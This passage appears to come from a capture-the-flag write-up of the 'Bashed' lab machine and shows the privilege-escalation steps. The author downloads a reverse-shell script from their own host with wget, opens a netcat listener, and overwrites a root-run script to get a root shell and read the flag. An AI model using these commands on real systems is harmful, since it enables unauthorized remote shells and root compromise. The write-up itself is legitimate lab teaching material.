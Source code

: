 And download it on the target machine at /home/scriptmanager:

```
www-data@bashed:/home/scriptmanager# sudo -H -u scriptmanager bash -c "wget http://10.10.14.12:9000/revshell.py"

--2023-01-02 19:57:07-- http://10.10.14.12:9000/revshell.py
Connecting to 10.10.14.12:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 197 [text/x-python]
Saving to: 'revshell.py'

0K 100% 23.6M=0s

2023-01-02 19:57:08 (23.6 MB/s) - 'revshell.py' saved [197/197]
```

After that I start listening on my machine with netcat:

```
┌──(j㉿jcomp)-[~/Desktop/tools]
└─$ nc -s 10.10.14.12 -lvp 4444               
Listening on jcomp 4444
```

And then, on the target machine I create a backup of /scripts/test.py and copy the "revshell.py" that I just downloaded and rename it to "test.py":

```
www-data@bashed:/home/scriptmanager# sudo -H -u scriptmanager bash -c "mv /scripts/test.py /scripts/bk.py"

www-data@bashed:/home/scriptmanager# sudo -H -u scriptmanager bash -c "cp revshell.py /scripts/test.py"
```

After waiting a bit, I get a response on my local machine:

```
┌──(j㉿jcomp)-[~/Desktop/tools]
└─$ nc -s 10.10.14.12 -lvp 4444               
Listening on jcomp 4444
Connection received on 10.10.10.68 60522
# whoami
whoami
root

```
\# python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
root@bashed:/scripts# cd /root
cd /root
root@bashed:~# ls -la
ls -la
total 28
drwx------  3 root root 4096 Jun  2  2022 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Jan  2 17:49 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
root@bashed:~# cat root.txt
cat root.txt
a0ea0563c...flag
```

```